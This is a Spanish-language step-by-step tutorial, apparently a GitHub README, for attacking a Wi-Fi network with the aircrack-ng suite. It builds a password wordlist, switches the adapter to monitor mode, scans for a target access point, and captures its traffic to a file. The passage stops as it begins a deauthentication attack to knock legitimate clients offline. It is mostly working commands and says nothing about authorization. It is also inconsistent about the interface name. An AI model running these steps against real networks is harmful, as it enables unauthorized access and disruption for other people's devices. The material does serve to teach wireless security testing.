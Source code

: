 Crear un "wordlist" de contraseñas
```
cd
cd Desktop
nano contrasenas.txt
```
Agregamos algunas palabras/contraseñas.
```
hola
prueba
perro
gato
core
casa
```

Comprobar que el dispositivo ha sido detectado.
```
iwconfig
```
Ejecutamos los comandos siguientes:
```
sudo airmon-ng check
sudo airmon-ng check kill
sudo airmon-ng check
```


Poner el dispositivo en modo monitor y comprobar que ha cambiado de nombre a "wlan0mon".

```
sudo airmon-ng start wlan1
iwconfig
```

Escanear las redes públicas para obtener el BSSID del punto de acceso y su canal.
```
sudo airodump-ng wlan1mon
```


Volver a correr el comando, esta vez especificando ambos y un nombre para el output (archivos de salida) que nos servirán más adelante.

IMPORTANTE: Los comandos a continuación es necesario ejecutarlos desde el mismo directorio que en este caso será "Desktop".

```
cd
cd Desktop
sudo airodump-ng -c [canal] --bssid [bssid] -w objetivo wlan1mon
```

En la parte inferior se muestran los dispositivos conectados al punto de acceso.

En otra pestaña del terminal, vamos a desautenticar alguno de los dispositivos legítimos lanzando "tramas de desautenticación". Usar la columna STATION del elegido y nuevamente el BSSID del punto de acceso.
